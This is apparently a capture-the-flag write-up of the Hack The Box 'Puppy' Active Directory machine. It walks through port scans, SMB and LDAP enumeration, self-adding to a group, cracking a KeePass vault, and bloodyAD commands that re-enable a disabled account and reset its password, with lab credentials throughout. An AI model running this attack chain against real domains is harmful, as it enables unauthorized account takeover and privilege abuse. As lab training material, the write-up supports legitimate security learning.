

# Puppy Write-Up - HTB

## Recon:

Started with an all port syn scan:

```bash
sudo nmap -sS -Pn -n -p- 10.129.232.75 -oN all_syn.txt
```

```bash
OUTPUT:
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
111/tcp   open  rpcbind
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
2049/tcp  open  nfs
3260/tcp  open  iscsi
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
49664/tcp open  unknown
49667/tcp open  unknown
49669/tcp open  unknown
49676/tcp open  unknown
49691/tcp open  unknown
63983/tcp open  unknown
```

Piping it into a vulnerability scan:

```bash
PORTS=$(grep "open" all_syn.txt | awk -F '/' '{print $1}' | tr '\n' ',' | sed 's/,$//'); sudo nmap -sVC -p $PORTS -Pn -n 10.129.232.75
```

```bash
OUTPUT:
Bug in iscsi-info: no string output.
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-07-04 02:41:45Z)
111/tcp   open  rpcbind       2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/tcp6  rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  2,3,4        111/udp6  rpcbind
|   100003  2,3         2049/udp   nfs
|   100003  2,3         2049/udp6  nfs
|   100005  1,2,3       2049/udp   mountd
|   100005  1,2,3       2049/udp6  mountd
|   100021  1,2,3,4     2049/tcp   nlockmgr
|   100021  1,2,3,4     2049/tcp6  nlockmgr
|   100021  1,2,3,4     2049/udp   nlockmgr
|   100021  1,2,3,4     2049/udp6  nlockmgr
|   100024  1           2049/tcp   status
|   100024  1           2049/tcp6  status
|   100024  1           2049/udp   status
|_  100024  1           2049/udp6  status
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: PUPPY.HTB0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
2049/tcp  open  nlockmgr      1-4 (RPC #100021)
3260/tcp  open  iscsi?
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: PUPPY.HTB0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
49664/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49676/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49691/tcp open  msrpc         Microsoft Windows RPC
63983/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-07-04T02:43:38
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: 6h59m59s

```

## Enumeration:

### SMB:

SMB Null Session seems to be off:

```bash
smbclient -N -L //10.129.232.75/                                      
Anonymous login successful

        Sharename       Type      Comment
        ---------       ----      -------
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.129.232.75 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available

```

### WinRM Logon:

Tried RM-ing via given user, but seems to be KO too:

```bash
evil-winrm -i 10.129.232.75 -u levi.james -p KingofAkron2025!                             
                                        
Evil-WinRM shell v3.5                                 
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion                                        
Info: Establishing connection to remote endpoint                                       
Error: An error of type WinRM::WinRMAuthorizationError happened, message is WinRM::WinRMAuthorizationError                                     
Error: Exiting with code 1
```

### BloodHound:

To quickly go through LDAP, I ran bloodhound-python:

```
bloodhound-python -u levi.james -p 'KingofAkron2025!' -d puppy.htb -ns 10.129.232.75 All
```

Added myself to the Developers groups

```
net rpc group addmem "developers@puppy.htb" -U puppy.htb/levi.james%'KingofAkron2025!' -S 10.129.232.75 levi.james
```

Check:

```
ldapsearch -x -H ldap://10.129.232.75 -D 'levi.james@PUPPY.HTB' -w 'KingofAkron2025!' -b 'DC=PUPPY,DC=HTB' -s sub '(&(objectClass=group)(cn=Developers))'  member
# extended LDIF
#
# LDAPv3
# base <DC=PUPPY,DC=HTB> with scope subtree
# filter: (&(objectClass=group)(cn=Developers))
# requesting: member 
#

# DEVELOPERS, PUPPY.HTB
dn: CN=DEVELOPERS,DC=PUPPY,DC=HTB
member: CN=Jamie S. Williams,CN=Users,DC=PUPPY,DC=HTB
member: CN=Adam D. Silver,CN=Users,DC=PUPPY,DC=HTB
member: CN=Anthony J. Edwards,DC=PUPPY,DC=HTB
member: CN=Levi B. James,OU=MANPOWER,DC=PUPPY,DC=HTB # <- We are now here

# search reference
ref: ldap://ForestDnsZones.PUPPY.HTB/DC=ForestDnsZones,DC=PUPPY,DC=HTB

# search reference
ref: ldap://DomainDnsZones.PUPPY.HTB/DC=DomainDnsZones,DC=PUPPY,DC=HTB

# search reference
ref: ldap://PUPPY.HTB/CN=Configuration,DC=PUPPY,DC=HTB

# search result
search: 2
result: 0 Success

# numResponses: 5
# numEntries: 1
# numReferences: 3

```

How were we able to do so?&#x20;

<figure><figcaption></figcaption></figure>

Going deeper in BloodHound I could not find anything useful from this point. So let's take a different route now.

\*Something was missing, so I went a little back and realized I didn't query SMB with creds\*.

### Back to SMB:

```
smbclient //10.129.232.75/DEV -U PUPPY.HTB/levi.james%'KingofAkron2025!'
```

Downloaded:&#x20;

<figure><figcaption></figcaption></figure>

## Foothold:

Seems to be of big value.

Let's go through recovery.kdbx:

Best tool to do so:

<figure><figcaption></figcaption></figure>

Because:

<figure><figcaption></figcaption></figure>

Password:&#x20;

```
liverpool
```

Open recovery.kdbx

We have a couple of passwords in there.

I went back in bloodhound and ran a few Cipher Queries. The most promising path is:

<figure><figcaption></figcaption></figure>

Cipher Query I used:

```sql
MATCH p = shortestPath((n)-[*1..]->(c))  WHERE n.name =~ '(?i)ant.edwards.*' AND NOT c=n  RETURN p
```

<figure><figcaption></figcaption></figure>

Due to the fact that Adam Silver has a disabled account, we will enable it. I found that the easiest tool nowadays to do ldap changes seems to be BloodyAD.

```
bloodyAD --host 10.129.232.75 -d puppy.htb -u ant.edwards -p Antman2025! remove uac adam.silver -f ACCOUNTDISABLE
```

<figure><figcaption></figcaption></figure>

Now, using our rights we will change the password:

```
bloodyAD --host 10.129.232.75 -d puppy.htb -u ant.edwards -p Antman2025! set password adam.silver Password123!
```

<figure><figcaption></figcaption></figure>

Started enumerating the endpoint and could notice:

<figure><figcaption></figcaption></figure>

Unzipped, catted:

<figure><figcaption></figcaption></figure>

Sweet!

<figure><figcaption></figcaption></figure>

Unlucky for us, mr. Cooper does not re-use his password...

<figure><figcaption></figcaption></figure>

After enumerating the endpoint and going back to AD enumeration, nothing showed up.

## Privilege Escalation:

After a while I found:

<figure><figcaption></figcaption></figure>

Moved to kali box and decrypted:

<figure><figcaption></figcaption></figure>

And we got it!

<figure><figcaption></figcaption></figure>
